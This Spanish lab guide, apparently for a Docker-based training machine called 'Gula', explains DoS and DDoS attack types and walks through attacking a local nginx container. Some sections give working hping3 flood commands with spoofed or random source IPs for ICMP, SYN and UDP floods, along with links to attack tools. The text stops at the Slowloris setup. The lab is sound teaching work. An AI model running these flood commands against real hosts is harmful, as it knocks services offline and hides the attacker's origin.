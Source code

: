 = Gula
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, gula.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh gula.tar
----

== Ataques DDoS y DoS

Los ataques distribuidos de denegación de servicio (DDoS) son aquellos que se producen cuando un atacante envía tráfico artificial desde varios dispositivos a los servidores que hospedan una web o una aplicación para que estos dejen de estar disponibles para los usuarios; existen diferentes tipos de ataques DDoS, pero todos tienen el mismo fin: saturar un servidor con tráfico ilegítimo, para detener la operatividad de un servicio en línea de forma temporal o permanente.

Por otra parte, tenemos los ataques de denegación de servicio (DoS) donde solo proviene de una sola fuente.

=== ¿Cómo se producen los ataques DDoS?

. Para generar ese tráfico artificial, primeramente, necesitaríamos muchos ordenadores, es decir, obtener el servicio de una botnet. Para ello se infectan con malware dispositivos, creando ordenadores zombie. Una vez se tienen varios dispositivos infectados se configuran los servidores de comando y control (C2) para manejar la botnet.

. El atacante enviará órdenes a los bots para comenzar a generar tráfico masivo hacia los servidores víctima. Estos ataques utilizan diferentes técnicas para enviar paquetes de datos hacia el objetivo, los cuales veremos más adelante.

. Una vez que está en marcha el ataque, el servidor colapsará debido a la saturación del tráfico. Desde el punto de vista de un cliente, experimentarán ralentización o falta de acceso.

. Los atacantes desde este punto, si ven que ha sucumbido el servidor ante su ataque pueden o pedir un rescate a la víctima (ransom DDoS) o aprovechar esto y hacer otro tipo de ataques (exfiltración de datos, inyección de malware, etc.).

. Este ataque es más difícil de mitigar, ya que proviene de múltiples IPs.

=== ¿Cómo se producen los ataques DoS?

Este es el caso sobre el que trata la máquina y sobre el que nos vamos a centrar, ya que no se suele tener una botnet al uso, por lo que utilizaremos nuestro propio dispositivo. 

. Como indica el nombre este ataque ya no es distribuido, así que solamente se realiza desde un solo dispositivo o IP.

. El atacante hace un envío masivo de peticiones o explotación de vulnerabilidades desde una única máquina. Y se espera a que se consuman todos los recursos del servidor (CPU, memoria, ancho de banda).

. Como podemos observar la finalidad es la misma que la del ataque DDoS, únicamente que este requiere menos recursos y es más sencillo de mitigar, ya que se puede banear la IP exacta que envía tantas peticiones por segundo, aunque ya veremos más adelante cómo mitigar este tipo de ataques.

== Tipos de ataques DoS y DDoS

Los ataques pueden clasificarse en varios tipos según el método de ataque utilizado. Principalmente pueden enfocarse en agotar recursos, explotar vulnerabilidades, amplificar tráfico o saturar conexiones. Hay que tener en cuenta que, aunque no se comente, en todos los ataques se https://www.cloudflare.com/es-es/learning/ddos/glossary/ip-spoofing/[suplanta la IP].

=== 1. Ataques de Consumo de Recursos

Estos ataques buscan agotar los recursos del sistema, como CPU, memoria o ancho de banda, para que no se pueda responder a solicitudes legítimas.

==== a. Ping flood (ICMP)

En este, el atacante intenta sobrecargar un dispositivo objetivo con paquetes de solicitud de eco ICMP, es decir, a base de pings se intenta saturar el ancho de banda.

Una solicitud ICMP requiere algunos recursos del servidor para procesar cada solicitud y para enviar una respuesta. La solicitud también requiere ancho de banda tanto en el mensaje entrante (solicitud de eco) como en la respuesta saliente (respuesta de eco). El ataque de inundación de Ping pretende sobrecargar la capacidad del dispositivo objetivo para responder al elevado número de solicitudes y/o sobrecargar la conexión de red con tráfico falso.

. El atacante envía muchos paquetes de solicitud de eco de ICMP al servidor objetivo utilizando varios dispositivos.

. A continuación, el servidor objetivo envía un paquete de respuesta de eco de ICMP a la dirección IP de cada dispositivo solicitante como respuesta.

image::assets/ping-icmp.png[ICMP flood,width=540,align=center]

==== b. SYN Flood

En este caso se envían repetidamente paquetes de solicitud de conexión inicial (SYN), el atacante puede sobrecargar todos los puertos disponibles en el servidor víctima, lo que hará que el dispositivo responda al tráfico legítimo muy lentamente o incluso que no responda en absoluto.

Este ataque aprovecha el proceso de las conexiones TCP. Como ya sabemos, en una situación normal se producen los siguientes procesos:

image::assets/syn-flood-1.png[Conexión TCP,width=380,align=center]

En un ataque se aprovecha el hecho de que, después de que se ha recibido un paquete SYN inicial, el servidor responderá con uno o más paquetes SYN/ACK y esperará el paso final del protocolo de enlace. Así es como funciona:

. El atacante envía muchos paquetes SYN al servidor víctima, generalmente mediante una dirección IP falsificada.

. El servidor víctima entonces responde a cada una de las solicitudes de conexión y deja abierto un puerto listo para recibir la respuesta.
    
. Mientras el servidor espera a que llegue el paquete ACK final, el cual nunca llegará, el atacante sigue enviando más paquetes SYN. La llegada de cada nuevo paquete SYN hace que el servidor mantenga temporalmente abierta una nueva conexión de puerto durante cierta cantidad de tiempo y, una vez que se hayan utilizado todos los puertos disponibles, el servidor ya no puede funcionar con normalidad, llevándolo a su sobrecarga.

image::assets/syn-flood-2.png[SYN flood,width=380,align=center]

También hay varias formas de llevarlo a cabo:

* *Ataque directo*: El atacante envía paquetes SYN sin falsificar la IP, pero bloquea respuestas SYN-ACK para mantener el ataque activo.
* *Ataque con suplantación*: Se falsifica la dirección IP en los paquetes SYN para dificultar la mitigación y el rastreo del atacante.
* *Ataque distribuido (DDoS)*: Se usa una botnet para generar un ataque masivo, con dispositivos que pueden falsificar sus IPs, haciendo el rastreo casi imposible.

==== c. UDP Flood

En este ataque lo que se pretende es enviar paquetes UDP a puertos aleatorios, forzando al servidor a responder con "puerto inalcanzable". 

De normal, un servidor responde a un paquete UDP enviado a uno de sus puertos de la siguiente forma:

. El servidor comprueba primero si se está ejecutando algún programa que esté escuchando solicitudes en el puerto especificado.

. Si ningún programa recibe paquetes en ese puerto, el servidor responde con un paquete ICMP (ping) para informar al remitente de que no se podía alcanzar el destino.

Entonces, si tiene que realizar este proceso para una petición, podemos llegar a imaginar que ocurre si se envían muchas peticiones. Como resultado de que el servidor víctima utiliza recursos para comprobar y luego responder a cada paquete UDP recibido, los recursos del objetivo pueden agotarse muy rápido cuando se recibe una gran avalancha de paquetes UDP, lo que provoca una denegación de servicio al tráfico normal.

image::assets/udp-flood.png[UDP Flood,width=580,align=center]

=== 2. Ataques de Explotación de Vulnerabilidades

Aprovechan fallos en el software o protocolo de red para hacer que el sistema colapse.

==== a. Slowloris

https://github.com/gkbrk/slowloris[Slowloris] es un programa que permite que un atacante sobrecargue un servidor objetivo al abrir y mantener muchas conexiones simultáneas HTTP entre el atacante y el objetivo.

El ataque se produce en la *capa de aplicación* y funciona al abrir conexiones a un servidor web objetivo y mantener esas conexiones abiertas todo el tiempo que se pueda. Slowloris es una herramienta de ataque específica diseñada para permitir que una sola máquina derribe un servidor sin utilizar mucho ancho de banda, en su lugar tiene como objetivo utilizar los recursos del servidor con solicitudes que parecen más lentas de lo normal, pero que por lo demás imitan el tráfico regular. 

El servidor atacado solo tendrá un número determinado de hilos disponibles para gestionar conexiones concurrentes. Cada hilo del servidor intentará mantenerse en servicio mientras espera a que se complete la solicitud lenta, lo cual nunca ocurre. Cuando se haya superado el máximo de conexiones posibles del servidor, no se responderá a cada conexión adicional y se producirá una denegación de servicio.

Este ataque se produce en 4 pasos:

. El atacante abre múltiples conexiones al servidor objetivo mediante el envío de múltiples encabezados de solicitudes HTTP parciales.

. El objetivo es abrir un hilo para cada solicitud entrante, con la intención de cerrar el hilo una vez que se haya completado la conexión. Para ser eficiente, si una conexión tarda demasiado, el servidor agotará el tiempo de la conexión excesivamente larga, liberando el hilo para la siguiente solicitud.

. Para evitar que el objetivo agote las conexiones, el atacante envía periódicamente encabezados de solicitud parciales al objetivo para mantener activa la solicitud. Básicamente, dice: "¡Todavía estoy aquí! Solo soy lento, por favor, espérame".

. El servidor objetivo nunca es capaz de liberar ninguna de las conexiones parciales abiertas mientras espera a que termine la solicitud. Una vez que todos los hilos disponibles están en uso, el servidor será incapaz de responder a las solicitudes adicionales realizadas desde el tráfico regular, provocando una denegación de servicio.

image::assets/Slowloris.jpg[Slowloris,width=380,align=center]

==== b. Teardrop Attack

En este caso se usan paquetes fragmentados de datos para inundar el servidor o la red de una víctima. Dado que el servidor no puede volver a ensamblar los paquetes, se produce una sobrecarga del servidor.

Los datos, o el tráfico de la red, suelen desglosarse en pequeños fragmentos y, luego, etiquetarse con un número específico en lo que se conoce como el campo "Fragment Offset". Volver a organizarlos en el orden correcto una vez que llegan es lo que suele suceder cuando no hay un ataque de por medio.

Entonces durante un ataque Teardrop, el ciberdelincuente inyecta un error en el campo "Fragment Offset", que interrumpe el proceso de secuenciamiento. Como resultado, el sistema recolecta un grupo grande de datos fragmentados dañados que no se pueden volver a ensamblar adecuadamente. Lamentablemente, tu sistema se sobrecarga y se bloquea sin advertencias (adecuadas).

Este ataque afectaba principalmente a sistemas antiguos como Windows 95, NT y algunas versiones de Linux

image::assets/Teardrop.jpg[Teardrop,width=380,align=center]

==== c. Ping of Death (PoD)

Este ataque es el precursos del *Ping flood* visto anteriormente. Consiste en el envío de paquetes más extensos que el tamaño máximo de paquetes de una conexión a Internet.

Estos paquetes son superiores a 65,535 bytes, lo que provoca errores de reensamblaje en sistemas antiguos y puede causar fallos del sistema o reinicios. Este ataque aprovecha vulnerabilidades específicas en el manejo de fragmentación de paquetes de ciertos sistemas operativos más antiguos.

image::assets/ping-of-death.png[PoD,width=380,align=center]

=== 3. Ataques de Amplificación y Reflexión

Utilizan servidores de terceros para amplificar el tráfico hacia la víctima, generando un volumen de datos inmenso. Todos los ataques de amplificación aprovechan una disparidad en el consumo de ancho de banda entre un atacante y el recurso web objetivo.

==== a. DNS Amplification

En este ataque un atacante aprovecha la funcionalidad de los solucionadores de DNS abiertos para sobrecargar una red o servidor específico con una cantidad amplificada de tráfico, impidiendo el acceso.

Consiste en enviar consultas breves que derivan en extensas respuestas que permiten aumentar el volumen del tráfico, produciendo la caída del servidor. También hay que tener en cuenta el efecto devastador que tiene esto realizado por una botnet.

Este ataque se ejecuta de la siguiente manera:

. El atacante utiliza un punto de conexión en riesgo para enviar paquetes UDP con direcciones IP falsificadas a un servidor DNS recursivo. La dirección falsificada en los paquetes señala a la dirección IP real de la víctima.

. Cada uno de los paquetes UDP realiza una solicitud a un solucionador de DNS, que a menudo aprueba un argumento como "CUALQUIERA" para recibir la respuesta más extensa posible.

. Después de recibir las solicitudes, el solucionador de DNS, que intenta ser útil respondiendo, envía una respuesta extensa a la dirección IP falsificada. 

. La dirección IP del servidor recibe la respuesta y la infraestructura de red asociada se ve inundada por una avalancha de tráfico, produciendo la denegación de servicio.

image::assets/dns-amplification.png[DNS Amplification,width=540,align=center]

==== b. NTP Amplification

En este ataque se aprovecha la funcionalidad de un servidor NTP (protocolo de tiempo de red) para sobrecargar una red o servidor específico con una cantidad amplificada de tráfico UDP, lo que impide al tráfico normal acceder al servidor víctima.

Lo que se pretende es explotar el comando monlist en servidores NTP vulnerables para multiplicar el tráfico de solicitud, generando una respuesta hasta 206 veces mayor, permitiendo a un atacante amplificar su ataque de DDoS con un impacto masivo.

Este ataque se realiza de la siguiente manera:

. El atacante utiliza una red de bots para enviar paquetes UDP con direcciones IP falsificadas a un servidor NTP que tiene el comando monlist activado. La dirección IP falsificada en cada paquete se dirige a la dirección IP real de la víctima.

. Cada paquete UDP hace una solicitud al servidor NTP utilizando su comando monlist, lo que provoca una extensa respuesta.

. El servidor responde entonces a la dirección falsificada con los datos resultantes.

. La dirección IP del servidor recibe la respuesta y la infraestructura de red asociada se ve sobrecargada por la avalancha de tráfico, con la consiguiente denegación de servicio.

image::assets/ntp-amplification.png[NTP Amplification,width=620,align=center]

==== c. Memcached Amplification

En este caso el atacante falsifica las solicitudes a un *servidor memcached* UDP vulnerable, que luego inunda a la víctima objetivo con tráfico de Internet, lo que puede llegar a sobrecargar los recursos de la misma. Mientras está sobrecargada la infraestructura de Internet del objetivo, no se pueden procesar nuevas solicitudes, por lo que se produce la denegación de servicio.

*Memcached* es un sistema de almacenamiento en caché de bases de datos para acelerar sitios web y redes.

El ataque funciona como los anteriores que hemos visto sobre amplificación, ya que se envían solicitudes falsas a un servidor vulnerable, que luego responde con una mayor cantidad de datos que la solicitud inicial, magnificando el volumen de tráfico. Este método de ataque de amplificación es posible ya que los servidores de memcached tienen la opción de funcionar con el protocolo UDP. UDP se utiliza porque nunca se consulta al host objetivo si está o no dispuesto a recibir los datos, lo que permite enviar una gran cantidad de datos al objetivo sin su consentimiento previo.

Un ataque basado en memcached se produce:

. Un atacante implanta una gran *carga útil* de datos en un servidor memcached en riesgo.

. A continuación, el atacante falsifica una solicitud HTTP GET con la dirección IP de la víctima.

. El servidor de memcached vulnerable que recibe la solicitud, que intenta ser útil respondiendo, envía una respuesta extensa al objetivo.

. El servidor objetivo o su infraestructura es incapaz de procesar la gran cantidad de datos enviados desde el servidor memcached, lo cual provoca una sobrecarga y una denegación de servicio a las solicitudes legítimas.

Ejemplo de ataque mecached:

image::assets/memcached-attack.png[Memcached,align=center]

=== 4. Ataques Lógicos o de Estado

Estos ataques aprovechan la gestión de conexiones del sistema para hacer que los recursos se agoten.

==== a. HTTP Flood

La intención de este ataque es saturar un servidor objetivo con solicitudes HTTP, en la capa de aplicación. Normalmente se utilizan botnets para este tipo de ataques.

image::assets/http-flood-attack.png[HTTP Flood,align=center]

Hay dos variantes:

*Ataque HTTP GET*

Varios dispositivos envían múltiples solicitudes de imágenes, archivos o algún otro activo desde un servidor objetivo. Cuando el objetivo se vea inundado con solicitudes y respuestas entrantes, se producirá una denegación de servicio.

*Ataque HTTP POST*

Este tipo de ataque se hace a través de los formularios, donde se suelen enviar los datos a una base de datos. El proceso de gestionar los datos del formulario y ejecutar los comandos necesarios de la base de datos es relativamente intensivo en comparación con la cantidad de potencia de procesamiento y el ancho de banda que se necesita para enviar la solicitud POST. Este ataque utiliza la disparidad en el consumo relativo de recursos, al enviar muchas solicitudes POST directamente a un servidor objetivo hasta que se sature su capacidad.

==== b. RUDY (R U Dead Yet?)

https://github.com/sahilchaddha/rudyjs[RUDY] es una herramienta cuyo objetivo es mantener un servidor web atado al enviar datos de formularios a un ritmo muy lento. La herramienta detecta los campos del formulario y aprovecharse del proceso de envío del mismo.

Un ataque R.U.D.Y. se realiza en los siguientes pasos:

. La herramienta R.U.D.Y. rastrea la aplicación de la víctima en busca de un campo de formulario.

. Cuando encuentra un formulario, la herramienta crea una solicitud POST HTTP para imitar el envío de un formulario legítimo. Esta solicitud POST contiene un encabezado que alerta al servidor de que se va a enviar un contenido muy extenso.

. Luego, la herramienta alarga el proceso de envío de los datos del formulario al dividirlo en paquetes de hasta 1 byte cada uno, y al enviar estos paquetes al servidor a intervalos aleatorios de unos 10 segundos cada uno.

. La herramienta sigue enviando datos de forma indefinida. El servidor web mantendrá la conexión abierta para aceptar los paquetes, ya que el comportamiento del ataque es similar al de un usuario con una velocidad de conexión lenta que envía datos de un formulario. Entretanto, se ve afectada la capacidad del servidor web para manejar el tráfico legítimo, por lo que termina saturándose.

image::assets/RUDY.jpg[RUDY,width=540,align=center]

== Solucionar la máquina

Vamos a ver en esta guía cómo realizar ataques de denegación de servicios y cómo estos afectan a un servidor mal configurado. Aprenderemos principalmente cómo realizarlos y ver lo que ocurre en nuestra máquina.

Para ello utilizaremos varias herramientas que estarán disponibles en el contenedor *dos*:

* https://www.kali.org/tools/hping3/[hping3]
* https://github.com/gkbrk/slowloris[slowloris]
* ping
* https://github.com/C4PIT4L/TearDrop[TearDrop]
* https://github.com/LimerBoy/Impulse[Impulse]
* https://github.com/sahilchaddha/rudyjs[Rudyjs]
* https://github.com/rodarima/lsi/blob/master/p2/dnsdrdos.c[dnsdrdos.c]

Tendremos tres imágenes, dos son del servidor y la otra es un entorno de ataque, donde están todas las herramientas configuradas y listas para usar. Si queremos usar este entorno, en una terminal ponemos:

[source,bash]
----
$ sudo su
$ docker exec -ti dos /bin/bash
----

En caso de querer comprobar el servidor con *tcpdump*, deberemos acceder al contenedor de nginx:

[source,bash]
----
$ sudo su
$ docker exec -ti nginx /bin/bash
----

También podemos ver las estadísticas de los contenedores poniendo *docker stats* en la terminal.

En cuanto a acceder a la página, es recomendable crear un nuevo perfil en nuestro navegador y borrar la cache de este por cada ataque. De esta forma comprobaremos que se ha realizado o no, sería como entrar por primera vez.

[cols="1,1"]
|===
|Navegador|URL

|Firefox
|about:profiles

|Brave
|brave://settings/manageProfile

|Chrome
|chrome://settings -> "Personas"

|Opera
|opera://settings/side-profiles-settings
|===

=== Nociones básicas

* *tcpdump* -> Es una herramienta de línea de comandos utilizada para capturar y analizar el tráfico de red en tiempo real. Permite inspeccionar los paquetes que circulan por una interfaz de red, filtrar tráfico específico por protocolos, direcciones IP o puertos, y visualizar detalles sobre las conexiones de red. Es útil para diagnosticar problemas de red, auditar la seguridad o estudiar el comportamiento de aplicaciones en la red.

* *docker stats* -> Muestra información en tiempo real sobre el rendimiento de los contenedores en ejecución. Los datos que proporciona son útiles para monitorear el consumo de recursos y detectar posibles problemas de rendimiento.

- *CPU %* -> Indica el porcentaje de uso de la CPU por parte del contenedor. Es útil para detectar si un contenedor está consumiendo demasiados recursos de procesamiento.
- *MEM USAGE / LIMIT* -> Muestra la cantidad de memoria RAM utilizada por el contenedor, junto con el límite de memoria asignado. Esto permite ver si un contenedor está alcanzando su límite de memoria, lo que podría llevar a que se detenga o se vuelva inestable.
- *MEM %* -> El porcentaje de la memoria total asignada al contenedor que está siendo utilizada.
- *NET I/O* -> Muestra la cantidad de datos que el contenedor ha enviado y recibido por la red. Esta cifra es útil para evaluar si el contenedor está generando un alto volumen de tráfico de red, lo que podría indicar que está manejando grandes cantidades de datos o que está siendo atacado
- *BLOCK I/O* -> Muestra la cantidad de datos leída y escrita por el contenedor en el sistema de almacenamiento (disco). Es útil para detectar cuellos de botella en el rendimiento del contenedor relacionados con el acceso a disco.
- *PIDS* -> El número de procesos activos dentro del contenedor. Si este número es muy alto, puede indicar que el contenedor está ejecutando demasiados procesos.

=== 1. Ataques de Consumo de Recursos

==== a. Ping flood (ICMP)

===== Comando

[source,bash]
----
$ sudo hping3 --icmp -flood -a (IPspoof) (IP)
----

Mediante este comando podremos enviar muchos paquetes ICMP como hemos visto anteriormente, con nuestra IP falsificada.

* *hping3* -> Es una herramienta para generar paquetes de red personalizados y hacer pruebas de red o ataques de denegación de servicio (DoS).

* *--icmp* -> Indica que se van a enviar paquetes ICMP (tipo "ping"), similares a los enviados por el comando ping.

* *--flood* -> Envía paquetes lo más rápido posible sin esperar respuesta, generando un gran volumen de tráfico.

* *-a (IPspoof)* -> Usa IP spoofing, es decir, falsifica la dirección IP de origen, haciendo que el ataque parezca provenir de otra máquina.

===== Resultados del ataque

*Limitaciones del entorno local*

El ataque está diseñado para saturar el ancho de banda de un servidor remoto.

En nuestro caso, tanto el atacante como el servidor están en la misma máquina o en la misma red local, lo que elimina la latencia de la red y la congestión del tráfico externo.

Al no haber una "distancia" real que recorrer para los paquetes, el tráfico no se propaga como en un ataque real.

*Análisis del tráfico con tcpdump*

Si ejecutamos el ataque y analizamos el tráfico desde el servidor Nginx con tcpdump, podemos ver cómo se reciben las peticiones.

[source,bash]
----
$ tcpdump -i eth0 icmp
----

image::assets/imagenes-vuln/1/Pingflood/tcpdump.png[Tcpdump,width=540,align=center]

En los resultados, observamos que solo 481825 paquetes han sido capturados de un total de 7786662 paquetes filtrados, el resto ha sido descartado por el kernel.

Esto ocurre porque el sistema no puede manejar un volumen tan alto de paquetes, por lo que los descarta antes de procesarlos.

*Monitoreo con docker stats*

image::assets/imagenes-vuln/1/Pingflood/dockerstats.png[Dockerstats,align=center]

Al revisar docker stats durante el ataque, no se observan cambios significativos en el uso de recursos.

Lo único que aumenta es el Net I/O de Nginx, ya que está recibiendo las solicitudes maliciosas.

Sin embargo, como los paquetes son descartados antes de ser procesados, el ancho de banda real no se ve afectado.

==== b. SYN Flood

===== Comando

Mediante el siguiente comando enviaremos un ataque SYN flood con direcciones IP falsificadas para saturar la tabla de conexiones del servidor y hacer que deje de aceptar conexiones legítimas.

[source,bash]
----
$ sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source (IP)
----

* *hping3* -> Es una herramienta de red utilizada para enviar paquetes TCP/IP personalizados. Es muy útil para pruebas de red y ataques de denegación de servicio (DoS).

* *-c 15000* -> Indica el número de paquetes a enviar, en este caso, 15,000 paquetes.

* *-d 120* -> Establece el tamaño del payload de cada paquete a 120 bytes.

* *-S* -> Establece el flag SYN en el paquete TCP. Esto es clave para un ataque SYN flood, ya que inicia una conexión TCP sin completar el "handshake".

* *-w 64* -> Define el tamaño de la ventana TCP. Esto es el tamaño de la ventana de recepción de datos en el protocolo TCP.

* *-p 80* -> Especifica el puerto de destino. En este caso, el puerto 80, que es utilizado por HTTP.

* *--flood* -> Envía paquetes lo más rápido posible sin esperar respuesta, generando un gran volumen de tráfico.

* *--rand-source* -> Hace que la fuente de los paquetes sea aleatoria, lo que dificulta el rastreo del origen del ataque (hace que el ataque sea de tipo "spoofed").

===== Resultados del ataque

*Inicio del ataque*

Una vez que iniciamos el ataque, es recomendable esperar unos segundos para que su efecto se refleje en el servidor.

*Verificación del efecto*

Para comprobar si el ataque ha tenido éxito, intentamos acceder a la IP del servidor desde el navegador.

Es importante limpiar la caché del navegador o usar un perfil nuevo para evitar datos almacenados. (Esta recomendación puede incluirse en la parte de despliegue del documento).

image::assets/imagenes-vuln/1/SYNflood/cargando.png[Cargando,width=740,align=center]

Como podemos ver, el servidor no responde y la página no carga. Esto indica que el ataque ha sido exitoso y está afectando la disponibilidad del servicio.

*Análisis con tcpdump*

Durante un breve escaneo con tcpdump, observamos que se han capturado 21 paquetes de un total de 3955070 paquetes procesados, el resto ha sido descartado por el kernel.

[source,bash]
----
$ tcpdump -i any 'tcp[tcpflags] & (tcp-syn) != 0 and tcp[tcpflags] & (tcp-ack) == 0'
----

Esto indica que hay una gran cantidad de paquetes SYN intentando establecer conexiones, lo que reduce progresivamente la disponibilidad del servidor para aceptar clientes legítimos.

image::assets/imagenes-vuln/1/SYNflood/tcpdump.png[Tcpdump,align=center]

*Análisis del impacto con docker stats*

Al monitorear el servidor con docker stats, observamos un Net I/O de 4.68GB / 4.27MB.

Esto sugiere que la carga de red es muy elevada, lo que aumenta las probabilidades de que algunos paquetes logren completar el handshake y consuman recursos del servidor.

image::assets/imagenes-vuln/1/SYNflood/dockerstats.png[Dockerstats,align=center]

==== c. UDP Flood

===== Comando

[source,bash]
----
$ sudo hping3 --udp -p 53 -d 120 --flood (IP)
----

* *hping3* -> Es una herramienta para generar paquetes de red personalizados y hacer pruebas de red o ataques de denegación de servicio (DoS).

* *--udp* -> Envía paquetes UDP en lugar de los predeterminados TCP.

* *-p 53* -> Especifica el puerto de destino, en este caso 53 (DNS) (Otros puertos que se pueden usar son 123 (NTP) y 161 (SNMP) ya que van por UDP)

* *-d 120* -> Define el tamaño de los paquetes en 120 bytes.

* *--flood* -> Envía paquetes lo más rápido posible sin esperar respuesta, generando un gran volumen de tráfico.

===== Resultados del ataque

*Inicio del ataque*

Este ataque no lo podemos realizar en nuestro entorno. Esto es debido a que no hay ancho de banda involucrado, ocurriendo el mismo caso que en el ataque de ping flood. Cuando el puerto de destino no está abierto, el sistema responde con un paquete ICMP (ping). Al ejecutarse en un entorno local, no se genera tráfico significativo, por lo que no se pueden observar efectos claros en la red.

*Análisis con tcpdump*

Durante un breve escaneo con tcpdump, observamos que se han capturado 71323 paquetes de un total de 2390095 paquetes procesados, el resto de los paquetes ha sido descartado por el kernel.

[source,bash]
----
$ tcpdump -i any udp
----

Esto indica que el ataque se está ejecutando correctamente y que los paquetes están llegando al servidor. Sin embargo, al no haber distancia real en la red ni consumo de ancho de banda, los efectos son mínimos en este entorno.

image::assets/imagenes-vuln/1/UDPflood/tcpdump.png[Tcpdump,width=600,align=center]

*Análisis del impacto con docker stats*

Al monitorear el servidor con docker stats, observamos un Net I/O de aproximadamente 5.9GB / 600KB.

Esto sugiere que el servidor está recibiendo una gran cantidad de paquetes, pero no está generando una respuesta significativa en términos de tráfico saliente. Esto confirma que, aunque el ataque está en marcha, en un entorno local no se logra un impacto real en el rendimiento del servidor.

image::assets/imagenes-vuln/1/UDPflood/dockerstats.png[Dockerstats,align=center]

=== 2. Ataques de Explotación de Vulnerabilidades

==== a. Slowloris

===== Requisitos

Deberemos tener antes python3 instalado (Debian/Ubuntu):

[source,bash]
----
$ sudo apt upgrade
